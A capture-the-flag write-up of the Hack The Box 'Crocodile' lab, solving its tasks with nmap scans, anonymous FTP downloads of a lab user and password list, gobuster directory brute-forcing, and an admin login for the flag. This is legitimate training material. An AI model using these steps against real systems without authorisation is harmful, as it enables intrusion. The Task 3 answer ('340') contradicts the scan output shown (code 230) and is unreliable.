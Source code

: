 ```yaml
---
title: 'Crocodile - HTB Starting Point Tier 1'
description: 'Writeup for Crocodile box'
pubDate: 'Nov 26 2024'
heroImage: 'blog-placeholder-2.jpg'
---
```


## Crocodile
*Apache, FTP, Website Structure Discovery*

**Task 1**  
What Nmap scanning switch employs the use of default scripts during a scan?  
`-sC`


**Task 2**  
What service version is found to be running on port 21?  
```bash
$ nmap -sC $TARGET

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:$HOST_IP
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http
|_http-title: Smash - Bootstrap Business Template

Nmap done: 1 IP address (1 host up) scanned in 19.67 seconds
```

`vsFTPd 3.0.3`


**Task 3**  
What FTP code is returned to us for the "Anonymous FTP login allowed" message?  
`340` (see task 2)


**Task 4**  
After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously?  
`anonymous`


**Task 5**  
After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server?  
```bash
kali$ ftp anonymous@$TARGET

ftp> ls
ftp> get <file>
```

Answer: `get`


**Task 6**  
What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server?  
`admin`


**Task 7**  
What version of Apache HTTP Server is running on the target host?  
```
nmap -sV --version-all -p80 $TARGET

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```


**Task 8**  
What switch can we use with Gobuster to specify we are looking for specific filetypes?  
`gobuster dir -x`


**Task 9**  
Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service?  
```bash
kali$ gobuster dir -x php -u $TARGET -w ~/Documents/git/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.68.207
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/Documents/git/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.129.68.207/assets/]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 312] [--> http://10.129.68.207/css/]
/dashboard            (Status: 301) [Size: 318] [--> http://10.129.68.207/dashboard/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.68.207/fonts/]
/index.html           (Status: 200) [Size: 58565]
/js                   (Status: 301) [Size: 311] [--> http://10.129.68.207/js/]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/server-status        (Status: 403) [Size: 278]
Progress: 8173 / 9472 (86.29%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 8173 / 9472 (86.29%)
===============================================================
Finished
===============================================================
```


**Task 10**  
Submit root flag  

From connecting to the ftp server earlier, we got the user list and their passwords:
```bash
kali$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin

kali$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

Logging in as admin takes you to the dashboard with the flag
